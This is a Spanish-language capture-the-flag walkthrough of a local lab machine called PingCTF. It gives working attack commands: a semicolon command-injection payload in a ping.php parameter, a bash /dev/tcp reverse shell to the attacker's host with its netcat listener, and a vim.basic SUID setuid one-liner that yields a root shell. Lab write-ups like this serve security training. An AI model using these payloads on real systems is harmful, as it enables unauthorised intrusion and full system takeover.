



# Máquina PingCTF

#### OS: Linux
#### Tier: Facil
#### IP de ejemplo: 172.17.0.2

## Reconocimiento
comenzamos realizando un escaneo de puertos por tcp con `nmap`:
```
sudo nmap -sS -p- --open --min-rate 5000 -vvv -Pn -n 172.17.0.2
```
```
PORT     STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

parece que en el puerto 80 se está alojando una web. Al entrar vemos lo siguiente:



vemos la típica web de hacer ping que encontramos en CTFs. Para comprobar que funciona pongámonos en escucha en la interfaz docker0 
```
❯ sudo tcpdump -i docker0
```

entonces mandamos un ping a nuestra IP (172.17.0.1) y vemos la respuesta



vemos que efectivamente la máquina tiene conectividad. 
Vamos a probar a inyectar un comando con un punto y coma, `;`, seguido del comando a ejecutar, por ejemplo, whoami
```
http://172.17.0.2/ping.php?target=172.17.0.1;whoami
```



## Initial Infiltration

tenemos inyección de comandos, establezcamos una reverse shell, usando la típica /dev/tcp a través de la web
```
172.17.0.1;bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```

pongámonos en escucha en el puerto 443 y mandemos el payload
```
❯ sudo nc -lvnp 443
[sudo] contraseña para w1s4: 
Listening on 0.0.0.0 443
Connection received on 172.17.0.2 32780
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ff6a2e12a564:/var/www/html$
```
hemos entrado como www-data. En /var/www/html/ping.php podemos ver el gran fallo de código que se está aconteciendo: 
```
// Ejecuta el comando y captura su salida
    $output = shell_exec($command);
```
la web aplica shell_exec a cualquier input del usuario, sin ninguna sanitización, esto es lo que nos permite ejecutar comandos directamente en la máquina víctima. Es un vector a tener en cuenta siempre que se involucre php, python, etc, e intuyas que tiene la capacidad de ejecutar un comando

## Privilege Escalation

Estamos dentro, comencemos listando binarios SUID, pues es raro que www-data tenga algún permiso de sudo. (nota: ni siquiera hay sudo en esta máquina: `bash: sudo: command not found`)

```
www-data@ff6a2e12a564:/var/www/html$ find / -perm -4000 2>/dev/null
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/chfn
/usr/bin/vim.basic
```

ese **/usr/bin/vim.basic** no es normal, una búsqueda simple en internet nos revela un payload de escalada de privilegios:
```
/usr/bin/vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/bash", "/bin/bash")'
```
al ejecutarlo nos convertimos en root gracias a un setuid que ejecutamos con Python (py3). Pwneamos la máquina. 

### Resumen:
Command injection via ping endpoint -> /vim.basic SUID
